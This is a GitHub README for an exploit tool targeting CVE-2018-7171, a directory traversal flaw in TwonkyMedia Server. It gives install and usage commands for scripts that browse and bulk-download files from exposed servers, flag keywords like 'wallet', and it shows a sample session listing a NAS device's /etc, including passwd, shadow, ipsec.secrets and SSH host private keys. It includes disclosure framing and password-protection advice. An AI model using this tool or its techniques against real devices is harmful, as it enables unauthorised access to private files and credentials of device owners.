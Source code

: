 # sharingIsCaring
## Background information
This is a GitHub repository keeping all relevant information about CVE-2018-7171.

CVE-2018-7171 represents a directory/file traversal vulnerability in TwonkyMedia Server 
version 7.0.11-8.5. Exploiting this vulnerability allows an attacker to list all files
located on the device, that is running the TwonkyMedia Server. Furthermore, an attacker is
able to download all media files (pictures, videos, and music) from a device after exploiting
this vulnerability. To exploit this vulnerability TwonkyMedia Server must not be protected 
by a password (which is the default setup).

Since a huge amount, around 24'000 TwonkyMedia Server instances, are reachable via the internet
the researcher decided to publish this vulnerability.

Maybe you don't know that TwonkyMedia Server is running on your device nor you know that it's
exposed in the internet. This is due to the fact that TwonkyMedia Server is pre-installed on
many NAS devices. If your router configuration automatically forwards the port (e.g. 9000) 
because it's a DLNA share, you're probably owned.

If your devices are affected by this vulnerability, expect all files on your device as no longer 
private.

Please make sure to switch off or protect your TwonkyMedia Server with a password, because no
fix for this vulnerability is available. 

## About

<b>twonky.py</b> can be used to comfortably browse devices running TwonkyMedia Server. 
Also, a feature is implemented which checks file and directory names against a built-in 
extensible wordlist for keywords e.g. "wallet". Furthermore, interesting system information
is requested and presented to the user.

<b>downloadFiles.py</b> can be used to perform bulk downloads of TwonkyMedia Server indexed directories.

## Installation
```
$ git clone https://github.com/mechanico/sharingIsCaring.git

$ cd sharingIsCaring

$ sudo pip install -r requirements.txt
```
You're ready to go!

## Usage 

```
$ twonky.py [IP Adress] [port]
https://www.shodan.io/host/[IP Adress]
*** Port [port] opened ***
Run Twonky browser on port [port] [Y, N]? [Y] y
*** Get Serverdetails from Twonky ***
Server Name: TwonkyMedia [piranhacloud]
Serverplatform: qnap_marvell_6281::qnap-ts219-oem
Pictures shared: 34743
Videos shared: 1804
Pictures shared: 235592
Videos shared: 7348
Twonky Version: 8.2.1
Build date: 02/08/2016 (mm/dd/yyyy)
*** 'contentbase' path set to '/'' ***
path nr: [enter directory number] [delimiter "/"]
------------------------------
```

## Explanation of output
* The "path nr" is e.g. 001, 002, ...
* To browse through directories use "/" as delimiter, e.g. 005/091

* Directories are marked with "Dir"
* Directories are colored "GREEN"

* Files are marked with "Fil"
* Files are not colored

* If a Keyword is discovered the line will be colored "RED"

## Example usage
```
$ python twonky.py xxx.xxx.xxx.xxx 9000
https://www.shodan.io/host/xxx.xxx.xxx.xxx
*** Port 9000 opened ***
Run Twonky browser on port 9000 [Y, N]? [Y] y
*** Get Serverdetails from Twonky ***
Server Name: TwonkyMedia [piranhacloud]
Serverplatform: qnap_marvell_6281::qnap-ts219-oem
Pictures shared: 34743
Videos shared: 1804
Pictures shared: 235592
Videos shared: 7348
Twonky Version: 8.2.1
Build date: 02/08/2016 (mm/dd/yyyy)
*** 'contentbase' path set to '/'' ***
path nr:
------------------------------
001 Dir /
002 Dir /bin
003 Fil /DEBUG
004 Dir /dev
005 Dir /etc
006 Dir /home
007 Dir /IPSEC
008 Dir /lib
009 Fil /linuxrc
010 Dir /mnt
011 Dir /opt
012 Fil /php.ini
013 Dir /proc
014 Dir /root
015 Dir /rpc
016 Dir /sbin
017 Dir /share
018 Dir /sys
019 Dir /tmp
020 Dir /usr
021 Dir /var
------------------------------
path nr: 005
------------------------------
001 Fil .qsys.log
002 Dir acpi
003 Fil apache-sys-proxy-ssl.conf
004 Fil apache-sys-proxy.conf
005 Dir apcupsd
006 Fil app_proxy.conf
007 Dir avahi
008 Fil bandwidth_record.conf
009 Fil blkid.tab
010 Fil blkid.tab.old
011 Dir bluetooth
012 Fil burntest.sym
013 Dir config
014 Fil daemon_mgr.conf
015 Dir dbus-1
016 Fil default-tz-list.json
017 Dir default_config
018 Dir dhcpc
019 Fil filemanager.conf
020 Fil filesystems
021 Fil fstab
022 Fil group
023 Fil gssapi_mech.conf
024 Fil hostname
025 Fil hosts
026 Dir hotplug
027 Dir hotplug.d
028 Fil idmapd.conf
029 Dir init.d
030 Fil inittab
031 Fil inittab.disable
032 Fil inittab.enable
033 Fil inittab.enable.tolapai
034 Fil inputrc
035 Fil ipsec.conf
036 Dir ipsec.d
037 Fil ipsec.secrets
038 Dir iscsi
039 Fil issue
040 Fil krb5.keytab
041 Fil krb5_tmpl.conf
042 Fil ld.so.cache
043 Fil ld.so.conf
044 Dir linuxigd
045 Fil localtime
046 Fil login.defs
047 Dir logs
048 Dir lunporter
049 Fil mdadm.conf
050 Fil model.conf
051 Fil mt-daapd.conf
052 Fil mtab
053 Fil my.cnf
054 Fil netconfig
055 Dir network
056 Fil nsswitch.conf
057 Fil ntp.conf
058 Dir openldap
059 Fil opentftpd.ini
060 Dir openvpn
061 Dir pam.d
062 Fil passwd
063 Fil php-fpm-sys-proxy.conf
064 Fil platform.conf
065 Dir ppp
066 Fil printcap
067 Fil profile
068 Fil protocols
069 Fil qbox-mariadb.cnf
070 Dir qmonitor
071 Fil qos.ui.cp.conf
072 Fil qos.ui.sm.conf
073 Fil qpkg_run_status
074 Dir qsync
075 Dir raddb
076 Fil raidtab
077 Fil random-seed
078 Dir rcK.d
079 Dir rcK_init.d
080 Dir rcS.d
081 Dir rcS_init.d
082 Fil resolv.conf
083 Fil rsyncd.conf
084 Fil samba4_flag
085 Fil securetty
086 Fil service.home.lst
087 Fil service.smb.lst
088 Fil services
089 Fil shadow
090 Fil smb.conf
091 Dir ssh
092 Dir ssl
093 Fil storage.conf
094 Fil strongswan.conf
095 Dir strongswan.d
096 Dir stunnel
097 Dir swanctl
098 Fil thttpd.conf
099 Fil TZ
100 Fil tzlist
101 Dir udev
102 Fil updatedb.conf
103 Fil upnpd.conf
104 Dir xl2tpd
105 Fil yp.conf
106 Dir zoneinfo
107 Dir zoneinfo.src
------------------------------
path nr: 005/091
------------------------------
001 Fil ssh_host_dsa_key
002 Fil ssh_host_dsa_key.pub
003 Fil ssh_host_rsa_key
004 Fil ssh_host_rsa_key.pub
005 Fil sshd_config
------------------------------
path nr:
```
